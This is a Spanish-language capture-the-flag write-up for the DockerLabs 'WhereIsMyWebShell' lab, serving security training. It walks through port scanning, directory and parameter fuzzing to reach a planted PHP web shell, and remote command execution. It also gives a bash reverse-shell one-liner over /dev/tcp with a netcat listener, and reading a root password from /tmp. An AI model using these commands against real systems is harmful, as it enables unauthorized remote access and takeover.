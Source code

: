 # DockerLabs - WhereIsMyWebShell

## Información General

- **Nombre del CTF:** DockerLabs
- **Categoría:** Explotación web
- **Dificultad:** Fácil
- **Fecha:** 23/01/2025

## Descripción del Desafío

El desafío **WhereIsMyWebShell** plantea un entorno donde el objetivo es descubrir y explotar una vulnerabilidad en un servidor web para subir o localizar una **web shell**, ganando acceso remoto al sistema. 

## Solución

### 1. Despliegue de la máquina

Como es de esperar, primero ejecutaremos el script proporcionado junto con la máquina para desplegar el laboratorio. Nos aparecerá un mensaje informándonos de la IP utilizada por la máquina vulnerable, que en este caso corresponde con la `192.168.100.2`.

```bash
sudo bash auto_deploy.sh whereismywebshell.tar
```

### 2. Análisis de vulnerabilidades

Comenzamos con un escaneo básico del servidor para identificar servicios activos:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.100.2
```

- `-p-`: Escanea todos los puertos disponibles (de 1 a 65535).
- `-sS`: Realiza un escaneo SYN (también conocido como escaneo "sigiloso" o "half-open"), que es más rápido y menos detectable en comparación con un escaneo completo de conexiones TCP.
- `-sC`: Ejecuta scripts predeterminados de Nmap (Nmap Scripting Engine) que proporcionan información adicional sobre los servicios detectados, como versiones y posibles vulnerabilidades.
- `-sV`: Detecta la versión de los servicios que se están ejecutando en los puertos abiertos.
- `--min-rate`: Establece una tasa mínima de envío de paquetes, en este caso de 5000 paquetes por segundo, lo que acelera el escaneo.
- `-n`: Desactiva la resolución de nombres DNS, lo que evita que Nmap intente resolver las direcciones IP a nombres de dominio, lo que mejora la velocidad del escaneo.
- `-vvv`: Establece un nivel de verborrea máximo, proporcionando información detallada sobre lo que Nmap está haciendo en cada paso del escaneo.
- `-Pn`: Desactiva el ping previo al escaneo, lo que significa que Nmap no hará un "ping" para verificar si el host está activo antes de realizar el escaneo de puertos. Esto es útil cuando el objetivo puede estar bloqueando pings o para escanear máquinas sin respuesta a los pings.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/1.png)

**Resultados del escaneo:**

- Puerto 80 abierto: Servidor HTTP.

#### Análisis del servicio HTTP

Abrimos el navegador y accedemos a `http://192.168.100.2`. Allí encontramos una página web simple, y al final de la misma, un consejo dejado por su creador recomendándonos explorar el directorio "/tmp". Usamos la herramienta `gobuster` para enumerar directorios ocultos (requiere instalación previa):

```bash
gobuster dir -u http://192.168.100.2 -w /usr/share/wordlists/directory-list-2.3-medium.txt -x txt,html,php,py,sh
```

- `gobuster`: Es la herramienta que se utiliza para realizar la enumeración de directorios y archivos en un servidor web.
- `dir`: Indica que el modo de operación es búsqueda de directorios y archivos.
- `-u`: Especifica la URL del servidor web que se está escaneando.
- `-w`: Define el archivo de lista de palabras que contiene posibles nombres de directorios y archivos a buscar en el servidor. En este caso, se utilizaremos una lista estándar con nombres comunes.
- `-x`: Define las extensiones de archivos que se probarán para cada entrada en la lista de palabras. 

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/2.png)

**Resultados relevantes:**

- `shell.php`
- `warning.html`

### 3. Explotación

Inspeccionamos el archivo `warning.html` y encontramos lo siguiente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/3.png)

Al intentar acceder a `shell.php`, no obtenemos ninguna respuesta visible. Esto sugiere que el archivo está esperando un parámetro específico para ejecutar comandos, algo similar a:

```bash
http://192.168.100.2/shell.php?[parametro]=whoami
```

Nuestro objetivo es descubrir cuál es ese parámetro desconocido. Para ello, utilizaremos **wfuzz** y probaremos diferentes nombres de parámetros extraídos de un diccionario común.

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
```

- `wfuzz`: Herramienta utilizada para realizar fuzzing en aplicaciones web.
- `-c`: Habilita la salida en color para facilitar la lectura de los resultados.
- `--hl=0`: Filtra las respuestas basándose en la longitud del contenido. En este caso, muestra solo las respuestas cuya longitud es diferente de 0 (útil para evitar respuestas vacías o irrelevantes).
- `-t 200`: Configura 200 hilos de ejecución en paralelo, acelerando significativamente el proceso.
- `-w`: Especifica el diccionario de palabras que se utilizará. Este diccionario contiene una lista de posibles nombres de parámetros o directorios.
- `-u "http://172.17.0.2/shell.php?FUZZ=whoami"`: Define la URL objetivo. La palabra clave `FUZZ` será reemplazada por cada palabra del diccionario. El parámetro reemplazado (`FUZZ`) se utilizará para intentar ejecutar el comando `whoami`.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/4.png)

La ejecución del comando nos devuelve como resultado el parámetro "parameter". Esto sugiere que hemos encontrado el parámetro correcto. Procedemos a verificarlo directamente en la web, y confirmamos que efectivamente hemos conseguido un **RCE** (Ejecución Remota de Comandos).

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/5.png)

Ahora crearemos redactaremos una línea de código para ejecutar una **Reverse Shell** y ganar así acceso a la máquina. Nos dirigimos al sitio web: https://tex2e.github.io/reverse-shell-generator/index.html

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/6.png)

```bash
bash -i >& /dev/tcp/192.168.100.1/4444 0>&1
```

Abrimos Burpsuite y utilizamos su "Encoder" para codificar el comando en `URL`, modificándolo ligeramente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/7.png)

Ponemos la máquina en modo escucha con la siguiente orden:

```bash
nc -nlvp 4444
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/8.png)

Colocamos el resultado en la URL justo detrás del parámetro y se nos abrirá una shell en la terminal.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/9.png)

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/10.png)


### 4. Escalada de Privilegios

Una vez dentro, nos dirigimos al directorio "/tmp", ya que en el sitio web nos aconsejaron visitarlo. Listamos el contenido del mismo con `ls -la` para que mostrar también los archivos ocultos y encontramos un fichero llamado `secret.txt`. Lo visualizamos con `cat` y obtenemos la contraseña del usuario root. 

¡Hemos tomado el control de la máquina!

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/11.png)

## Lecciones Aprendidas

- La enumeración de directorios y análisis manual son esenciales en desafíos web. Elegir un buen diccionario es clave para extraer un parámetro, aunque el proceso puede alargarse cuanto más palabras contenga este.
- Es importante validar y sanitizar los parámetros en PHP a fin de limitar el rango de opciones esperadas, evitando así la ejecución remota de comandos.

## Recursos

- [Documentación oficial de PHP](https://www.php.net/)
- [Herramientas utilizadas: Nmap, Gobuster...](https://github.com/tools)
